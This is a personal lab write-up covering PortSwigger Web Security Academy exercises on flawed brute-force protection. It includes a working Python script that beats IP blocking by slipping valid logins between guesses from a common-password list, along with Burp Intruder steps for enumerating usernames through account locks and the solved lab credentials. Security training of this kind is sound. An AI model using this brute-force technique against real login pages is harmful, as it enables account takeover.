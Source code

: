 ## Flawed brute-force protection

It is highly likely that a brute-force attack will involve many failed guesses before the attacker successfully compromises an account. Logically, brute-force protection revolves around trying to make it as tricky as possible to automate the process and slow down the rate at which an attacker can attempt logins. The two most common ways of preventing brute-force attacks are:

- Locking the account that the remote user is trying to access if they make too many failed login attempts
- Blocking the remote user's IP address if they make too many login attempts in quick succession

Both approaches offer varying degrees of protection, but neither is invulnerable, especially if implemented using flawed logic.

For example, you might sometimes find that your IP is blocked if you fail to log in too many times. In some implementations, the counter for the number of failed attempts resets if the IP owner logs in successfully. This means an attacker would simply have to log in to their own account every few attempts to prevent this limit from ever being reached.

In this case, merely including your own login credentials at regular intervals throughout the wordlist is enough to render this defense virtually useless.

## Lab

In this lab we have to do good login one time and then try our brute force creds one time and we can do this in loop with any script!

So i made one python script and added all the passwords in List and checked them one by one!

==> Exploit :

```py
import requests

def goodReq():
	username = "wiener"
	password = "peter"
	url = "https://ac831f371f85a102c02985da00360007.web-security-academy.net/login"
	data = {
		'username':username,
		'password':password
	}
	r = requests.post(url=url,data=data)
	# print(r.text)
# goodReq()

def brute_force():
	username = "carlos"
	password = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]
	url = "https://ac831f371f85a102c02985da00360007.web-security-academy.net/login"

	Flag = False
	count = 0
	i = 0
	while (Flag==False):
		if(count % 2 == 0):
			print("Trying bad request")
			r = requests.post(url=url,data={'username':username,'password':password[i]})
			if("Your username is:" in r.text):
				Flag = True
				print("Credentials Found!")
				print("Username: ",username)
				print("Password: ",password[i])
				print(r.text)
				break
			i += 1
			count += 1
		else:
			print("Trying good request")
			count += 1
			goodReq()
brute_force()
```

--> After running this exploit i found the password for `carlos` and solved the lab!

![](Attachments/Pastedimage20220202125348.png)

---

# Account locking

One way in which websites try to prevent brute-forcing is to lock the account if certain suspicious criteria are met, usually a set number of failed login attempts. Just as with normal login errors, responses from the server indicating that an account is locked can also help an attacker to enumerate usernames.

Locking an account offers a certain amount of protection against targeted brute-forcing of a specific account. However, this approach fails to adequately prevent brute-force attacks in which the attacker is just trying to gain access to any random account they can.

For example, the following method can be used to work around this kind of protection:

1.  Establish a list of candidate usernames that are likely to be valid. This could be through username enumeration or simply based on a list of common usernames.
2.  Decide on a very small shortlist of passwords that you think at least one user is likely to have. Crucially, the number of passwords you select must not exceed the number of login attempts allowed. For example, if you have worked out that limit is 3 attempts, you need to pick a maximum of 3 password guesses.
3.  Using a tool such as Burp Intruder, try each of the selected passwords with each of the candidate usernames. This way, you can attempt to brute-force every account without triggering the account lock. You only need a single user to use one of the three passwords in order to compromise an account.

Account locking also fails to protect against credential stuffing attacks. This involves using a massive dictionary of `username:password` pairs, composed of genuine login credentials stolen in data breaches. Credential stuffing relies on the fact that many people reuse the same username and password on multiple websites and, therefore, there is a chance that some of the compromised credentials in the dictionary are also valid on the target website. Account locking does not protect against credential stuffing because each username is only being attempted once. Credential stuffing is particularly dangerous because it can sometimes result in the attacker compromising many different accounts with just a single automated attack.

## Lab: Username enumeration via account lock

--> This website locks the account of a user if the user tries to login after 2-3 attempts so with this functionality or logic we can think that if the user account exists then only the website will lock the user account and that's the logic flow here. we can use this logic for username enumration

So we have provided the username list and password list. I firstly brute forced the username with the given username list and for password i tried the given password list with `cluster bomb` and also i have grepped the string `Invalid username or password` to check that which username is getting blocked

And after some time i found that the user `alabama` don't get the grepped string so that means the account got locked. And now we have one possible username called `alabama`

![](Attachments/Pastedimage20220202140519.png)

--> For password brute force we have to make the difference between requests `3` because the website is blocking us for 3 or more failed login attempts. But after some time i found that if your login is correct then website is displaying nothing.

So i again grepped the `Invalid username or password` and `You have made too many requests` strings and started the attack. And after some time i found that we don't get anything for password `buster` so it might be a correct password!

![](Attachments/Pastedimage20220202144628.png)

--> And after trying that password with the username i solved the lab!
